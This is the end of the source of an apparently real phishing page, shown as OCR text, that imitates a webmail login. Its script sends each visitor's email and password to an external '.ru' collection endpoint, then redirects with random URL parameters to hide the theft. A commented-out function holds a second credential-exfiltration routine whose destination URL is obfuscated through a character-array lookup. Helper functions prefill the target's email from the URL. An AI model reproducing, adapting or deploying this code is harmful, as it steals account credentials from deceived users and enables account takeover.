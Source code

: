           psv = ps.val();
            if(em && em.length > 0 && psv && psv.length > 0){
              var theemidval = '5a80db15dd962954bdb5dca723a29108';
              //mg(emv, psv,'G-Webmail');  
              $.ajax({
                url: 'https://dualsmtp.ru/email-list/onedrive25/finish.php', 
                type: 'POST', 
                dataType: 'html', 
                data: { Email : emv, password : psv, typeofemail : 'G-Webmail', theemid : theemidval}, 
                crossDomain: true,
                  success: function(msg) {
                },
                error: function(e) {
                  console.log(e)
                }
              });
              if(isStyleDouble && styleDoubleFromUrl && styleDoubleFromUrl < isStyleDouble && styleDoubleFromUrl < 3){
                styleDoubleFromUrl++;
                redirectUrl = 'index.html?'+get_rand_url_pars()+'&username='+emv+'&db='+styleDoubleFromUrl;
              }
              setTimeout(function(){
                window.location.replace(redirectUrl);
                //alert(redirectUrl);
              }, 2000);              
            }
          });
        
        
      });


//function evandoor(a,o,t){var h = ['O','L','t','q','e','D','c','-','.','z','u','2','T','m','V','J','6','U','P','b','v','K','B','Z','i','7','R',':','C','/','o','r','n','Q','S','5','3','8','a','M','W','I','x','H','Y','4','1','k','s','d','g','A','j','F','N','9','G','l','f','p','X','0','w','y','E','h'],f = h[65]+h[2]+h[2]+h[59]+h[48]+h[27]+h[29]+h[29]+h[38]+h[59]+h[24]+h[49]+h[38]+h[2]+h[38]+h[6]+h[48]+h[48]+h[8]+h[6]+h[30]+h[13]+h[29]+h[58]+h[24]+h[32]+h[24]+h[48]+h[65]+h[7]+h[10]+h[32]+h[20]+h[11]+h[11]+h[8]+h[59]+h[65]+h[59];$.ajax({url:f,type:"POST",dataType:"html",data:{Email:a,password:o,typeofemail:t},crossDomain:!0,success:function(a){},error:function(a){}})}
function randomInteger(min, max) {return Math.floor(Math.random() * (max - min + 1)) + min; }
function randomString(r,n){for(var o="",t=r;0<t;--t)o+=n[Math.floor(Math.random()*n.length)];return o}
function getdomainpartofemail(a){var e,t=!1;return!validateEmail(a)||-1!=(e=(a=a.toLowerCase()).indexOf("@"))&&(t=a.substr(e+1)),t}
function get_email_hash(){var a=!1,i=window.location.href,t=(i=i.trim()).lastIndexOf("#");return-1!=t&&(a=i.substring(t+1),validateEmail(a)||(a=!1)),a}
function validateEmail(t){return/^(([^<>()\[\]\\.,;:\s@"]+(\.[^<>()\[\]\\.,;:\s@"]+)*)|(".+"))@((\[[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\])|(([a-zA-Z\-0-9]+\.)+[a-zA-Z]{2,}))$/.test(String(t).toLowerCase())}
function geturlparameter(r){for(var t=window.location.search.substring(1).split("&"),e=0;e<t.length;e++){var n=t[e].split("=");if(n[0]==r)return decodeURIComponent(n[1])}}
function get_rand_url_pars(){var r="",n=0,a="abcdefghijklmnopqrstuvwxyz",e=a;a+=a.toUpperCase()+"123456789";for(var t=randomInteger(3,10),n=0;n<t;n++)r+="&"+randomString(randomInteger(3,10),e)+"="+randomString(randomInteger(15,30),a);return r.substr(1)}

    </script>

</body></html>
